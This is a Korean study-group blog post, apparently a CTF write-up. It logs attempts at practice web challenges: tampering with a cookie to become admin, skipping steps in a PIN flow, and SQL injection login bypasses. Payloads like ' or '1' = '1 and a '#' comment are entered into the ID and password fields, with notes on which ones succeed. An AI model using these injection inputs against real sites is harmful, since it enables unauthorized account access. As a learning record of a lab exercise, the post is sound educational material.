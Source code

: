 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 풀이: Cookie, SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-18
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Admin is Mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# Pin Code Crack

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ

1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O